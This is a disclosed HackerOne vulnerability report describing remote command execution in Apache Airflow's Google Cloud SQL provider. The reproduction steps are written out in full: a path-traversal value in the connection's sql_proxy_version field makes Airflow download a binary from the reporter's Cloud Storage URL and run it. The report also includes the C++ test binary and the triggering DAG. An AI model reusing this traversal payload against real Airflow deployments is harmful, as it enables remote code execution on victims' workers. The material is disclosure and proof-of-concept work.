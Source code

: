 # Apache Airflow Google Cloud Sql Provider Remote Command Execution

## Report Details
- **Report ID**: 1895277
- **URL**: https://hackerone.com/reports/1895277
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2023-03-07T15:11:10.124Z
- **Disclosed**: 2023-04-16T18:35:53.618Z

## Reporter
- **Username**: sw0rd1ight
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
## 0x01 Test environment
airflow 2.5.1
[apache-airflow-providers-google](https://airflow.apache.org/docs/apache-airflow-providers-google/8.8.0/) 8.8.0
Build with docker compose
##  0x02 Reproduction steps
### 2.1 Prepare the malicious executable
Write the following `exec.cpp` file.
```
#include<stdlib.h>
using namespace std;
int main(){
        system("mkdir /tmp/hello");
        return 0;
}
```
In a linux environment, use g++ to compile and rename it to system
```python
g++ exec.cpp -o system
```
{F2213397}
Put the compiled system malicious executable file into Google Cloud Storage, and set the permission to public. My address for this exploit is [https://storage.googleapis.com/swordlight/system](https://storage.googleapis.com/swordlight/system)

### 2.2 Creating a Malicious Google Cloud SQL Database Connection
Create the following Google Cloud SQL Database connection named aaa under Admin->Connections Among them.
Host, Schema, Login, and Port filed are required, just fill in the content that conforms to the format.
{F2213400}
Among them, Extra  filed fills in the actual content as follows, and note that sql_proxy_version is set to `../swordlight/system?a=`
```python
{
  "project_id":"pivotal-gearing-375804",
  "instance":"hellopg",
  "location":"us-central1-b",
  "database_type":"postgres",
  "use_proxy":"True",
  "use_ssl":"False",
  "sql_proxy_use_tcp":"True",
  "sql_proxy_version":"../swordlight/system?a=",
  "sslcert":"",
  "sslkey":"",
  "sslrootcert":""
}
```
### 2.3 Use the CloudSQLExecuteQueryOperator operator in Dag for verification
Create a google_test.py script that uses the CloudSQLExecuteQueryOperator operator. 
Put it in the `/opt/airflow/dags` directory so that it can be automatically loaded by airflow.The content is as follows, where gcp_cloudsql_conn_id is set to the connection name aaa we established above.
```python
from __future__ import annotations

import os
import subprocess
from datetime import datetime
from os.path import expanduser
from urllib.parse import quote_plus

from airflow import models
from airflow.providers.google.cloud.operators.cloud_sql import CloudSQLExecuteQueryOperator


SQL = [
    "CREATE TABLE IF NOT EXISTS TABLE_TEST (I INTEGER)",
    "CREATE TABLE IF NOT EXISTS TABLE_TEST (I INTEGER)",  # shows warnings logged
    "INSERT INTO TABLE_TEST VALUES (0)",
    "CREATE TABLE IF NOT EXISTS TABLE_TEST2 (I INTEGER)",
    "DROP TABLE TABLE_TEST",
    "DROP TABLE TABLE_TEST2",
]


postgres_kwargs = dict(
    user="postgres",
    password=r"ktd2(%EzQ5",
    public_port="5432",
    public_ip="34.122.52.6",
    project_id="pivotal-gearing-375804",
    location="us-central1-b",
    instance="hellopg",
    database="postgres",
    client_cert_file="key/postgres-client-cert.pem",
    client_key_file=".key/postgres-client-key.pem",
    server_ca_file=".key/postgres-server-ca.pem",
)


# Postgres: connect via proxy over TCP
os.environ["AIRFLOW_CONN_PROXY_POSTGRES_TCP"] = (
    "gcpcloudsql://{user}:{password}@{public_ip}:{public_port}/{database}?"
    "database_type=postgres&"
    "project_id={project_id}&"
    "location={location}&"
    "instance={instance}&"
    "use_proxy=True&"
    "sql_proxy_use_tcp=True".format(**postgres_kwargs)
)

connection_names = [
    "proxy_postgres_tcp",
]

with models.DAG(
    dag_id="example_gcp_sql_query",
    start_date=datetime(2021, 1, 1),
    catchup=False,
    tags=["example"],
) as dag:
    prev_task = None


    task = CloudSQLExecuteQueryOperator(
        gcp_cloudsql_conn_id="aaa",gcp_conn_id="proxy_postgres_tcp",task_id="example_gcp_sql_task_proxy_postgres_tcp" , sql=SQL
    )
    tasks.append(task)
    if prev_task:
        prev_task >> task
    prev_task = task

# [END howto_operator_cloudsql_query_operators]
```
{F2213402}
Open the example_gcp_sql_query dag corresponding to our google_test.py script in the UI management interface, and run.
{F2213403}
Click to view the running graph and logs through the Graph menu.
{F2213404}
{F2213405}
It can be seen from the log that the victim machine downloaded the system file form my Google cloud storage address [https://storage.googleapis.com/swordlight/system](), and renamed it to /tmp/39cl4def_cloud_sql_proxy, and then ran.{F2213408}
At the same time, enter the terminal of the worker and you can see that the **hello** folder has been created successfully.
{F2213413}

## Impact

When airflow does not enable authentication, the attacker can modify the existing connection configuration information, so that the dags that use the CloudSQLExecuteQueryOperator in the system will execute malicious commands at runtime

## Attachments
- image.png
- image.png
- image.png
- image.png
- image.png
- image.png
- image.png
- image.png
- image.png
